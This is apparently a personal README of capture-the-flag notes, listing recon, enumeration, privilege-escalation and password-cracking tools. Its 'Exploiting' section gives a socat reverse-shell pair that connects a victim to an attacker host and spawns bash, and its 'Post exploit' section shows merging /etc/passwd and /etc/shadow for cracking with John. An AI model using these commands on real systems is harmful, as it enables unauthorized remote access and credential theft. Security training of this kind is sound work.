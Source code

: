This repo contains some miscallenious notes/tips for me to use when I do CTFs. Mostly contains list of tools

## Ivestigation

### SSL/TLS Certificates

[Certificate search](https://crt.sh)  
Find certificates by certificate hash, domain name or organization name

NsLookup  
Tool to lookup DNS records

[DNSDumpster](https://dnsdumpster.com)  
Tool for subdomain enumeration.

[Shodan](https://shodan.io)  
Search Engine for Internet connected devices

### Identifying technologies

[OWASP favicon database](https://wiki.owasp.org/index.php/OWASP_favicon_database) - Use favicon md5-sums to find the framework

Wappalyzer - Browser plugin that (I assume) reads HTTP-headers and identifies underlying technologies

[Sublist3r](https://github.com/aboul3la/Sublist3r)  
Subdomain enumerator that uses OSINT

## Enumeration/Scanning

nmap  
Search for open ports in a machine. Automatically look for exploits for the software running in the ports 

Rustscan    
Same as nmap but faster

### Content discovery

[Fuzz Faster u Fool](https://github.com/ffuf/ffuf)  
Find direcotries/VHosts in a website. Can also be used to fuzz GET parameter 

[Gobuster](https://github.com/OJ/gobuster)  
Find directories/DNSs/VHosts in a website

[DNSRecon](https://github.com/darkoperator/dnsrecon)  
DNS Enumeration Script

## Exploiting

More stable shell

### Socat  
On the attacker machine, run the command ```socat TCP-L:<PORT> FILE:`tty`,raw,echo=0```  
On the victim machine run the command ```socat TCP:<attacker-ip>:<attacker-port> exec:"bash -li",pty,stderr,sigint,setsid,sane```

## Priv Esc

[linPEAS/winPEAS](https://github.com/carlospolop/PEASS-ng)  
Scripts that look for vulnerabilities inside the OS.

[GTFObins](https://gtfobins.github.io/)  
Curated list of Unix binaries that can be used to bypass local security restrictions in a miconfigured system.

## Post exploit

### Unshadow tool  
Use ```unshadow passwd.txt shadow.txt > passwords.txt``` where passwd.txt contains the contents from ```/etc/passwd``` and shadow.txt ```/etc/shadow```  

### [John](https://github.com/openwall/john)
After you've used the unshadow tool, you can use ```john passwords.txt``` to bruteforce the passwords


## Misc

[CyberChef](https://gchq.github.io/CyberChef)
